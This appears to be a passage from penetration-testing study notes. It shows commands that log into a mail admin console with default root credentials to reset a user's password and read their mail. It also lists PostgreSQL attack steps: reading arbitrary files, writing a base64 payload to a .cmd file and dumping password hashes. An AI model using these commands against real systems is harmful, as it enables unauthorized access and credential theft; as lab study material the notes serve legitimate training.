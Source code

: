 ```bash
//banner grab
nc -nvC $tip 4555
root
root
setpassword ryuu abcd

nc -nvC $tip 110
USER ryuu
PASS abcd
LIST
RETR 1
RETR 2
```

## 5443/5433-Postgresql
+ PostgreSQL is an **open source object-relational database system that uses and extends the SQL language.
+ brute force, Client authentication is controlled by a config file frequently named pg_hba.conf
+ authencated rce.[postgresql rce](https://nosec.org/home/detail/2368.html), [hacktricks-postgresql rce](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions); PG-Nibbles
+ pgexec, upload so to get shell. [pgexec](https://github.com/Dionach/pgexec)
+ post: passwords inside pgadmin4.db file
+ [hacktricks - postgresql](https://book.hacktricks.xyz/pentesting/pentesting-postgresql)

```bash
# banner
PORT     STATE SERVICE
5432/tcp open  pgsql

# enum
msf> use auxiliary/scanner/postgres/postgres_version
msf> use auxiliary/scanner/postgres/postgres_dbname_flag_injection

# connect
psql -U <myuser> # Open psql console with user
psql -h <host> -U <username> -d <database> # Remote connection
psql -h <host> -p <port> -U <username> -W <password> <database> # Remote connection

psql -h localhost -d <database_name> -U <User> #Password will be prompted
\list # List databases
\c <database> # use the database
\d # List tables
\du+ # Get users roles

#Read a file
CREATE TABLE demo(t text);
COPY demo from '[FILENAME]';
SELECT * FROM demo;

#Write ascii to a file (copy to cannot copy binary data)
COPY (select convert_from(decode('<B64 payload>','base64'),'utf-8')) to 'C:\\some\\interesting\path.cmd'; 

#List databases
SELECT datname FROM pg_database;

#Read credentials (usernames + pwd hash)
SELECT usename, passwd from pg_shadow;

#Check if current user is superiser
SELECT current_setting('is_superuser'); #If response is "on" then true, if "off" then false

```